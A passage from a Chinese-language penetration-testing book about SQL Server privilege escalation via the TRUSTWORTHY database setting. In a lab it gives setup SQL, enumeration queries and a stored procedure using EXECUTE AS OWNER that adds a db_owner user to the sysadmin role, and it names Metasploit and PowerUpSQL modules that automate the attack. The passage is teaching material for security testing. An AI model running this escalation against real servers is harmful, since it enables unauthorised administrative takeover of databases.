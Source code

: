 图 9.7 – 成功的权限提升

显然，审核具有假冒权限的用户至关重要。PowerUpSQL 的`Invoke-SQLAudit`功能列出了所有可以假冒其他用户的登录名。然而，它无法构建关系图（如 BloodHound 那样）并识别嵌套的关系。

## 受信任配置错误

**受信任**是一个数据库属性，表示 SQL Server 信任该数据库及其内容。默认情况下，此属性是禁用的，只有`sysadmin`才能启用。如果攻击者是一个**受信任**数据库中属于`db_owner`角色的成员，并且该数据库的所有者是`sysadmin`，那么就有可能提升权限。拥有`db_owner`角色的攻击者可以创建一个存储过程，使其在数据库所有者（**sysadmin**）的上下文中执行（**EXECUTE AS OWNER**）[11]。

让我们在实验室中设置这个攻击。以下代码将创建一个数据库，将其设置为**受信任**，为`viserys.targaryen`创建一个登录，并授予他`db_owner`角色：

```
CREATE DATABASE MyDb
USE MyDb
ALTER DATABASE MyDb SET TRUSTWORTHY ON
CREATE LOGIN [ESSOS\viserys.targaryen] FROM WINDOWS
ALTER LOGIN [ESSOS\viserys.targaryen] with default_database = [MyDb];
CREATE USER [ESSOS\viserys.targaryen] FROM LOGIN [ESSOS\viserys.targaryen];
EXEC sp_addrolemember [db_owner], [ESSOS\viserys.targaryen]
```

现在，我们准备执行攻击。首先，让我们识别**受信任**的数据库。PowerUpSQL 有一个名为`Invoke-SQLAuditPrivTrustworthy`的功能可以完成此任务，或者我们可以直接运行以下 SQL 查询：

```
SELECT name as database_name , SUSER_NAME(owner_sid) AS database_owner , is_trustworthy_on AS TRUSTWORTHY from sys.databases;
```

其次，我们需要检查**受信任**数据库中`db_owner`角色的成员：

```
USE MyDb;
SELECT DP1.name AS DatabaseRoleName, isnull (DP2.name, 'No members') AS DatabaseUserName FROM sys.database_role_members AS DRM  RIGHT OUTER JOIN sys.database_principals AS DP1  ON DRM.role_principal_id = DP1.principal_id  LEFT OUTER JOIN sys.database_principals AS DP2  ON DRM.member_principal_id = DP2.principal_id  WHERE DP1.type = 'R' ORDER BY DP1.name;
```

最后一步是创建一个存储过程并执行它：

```
CREATE PROCEDURE sp_pe_trust
WITH EXECUTE AS OWNER
AS
EXEC sp_addsrvrolemember [ESSOS\viserys.targaryen],[sysadmin]
EXEC sp_pe_trust
SELECT is_srvrolemember('sysadmin')
```

可以通过使用 Metasploit 的`auxiliary/admin/mssql/mssql_escalate_dbowner`模块或`Invoke-SqlServer-Escalate-DbOwner`脚本[12]来自动化攻击。自动化利用的结果如下面的截图所示：

![图 9.8 – 从 db_owner 到 sysadmin 的权限提升](img/B18964_09_08.jpg)
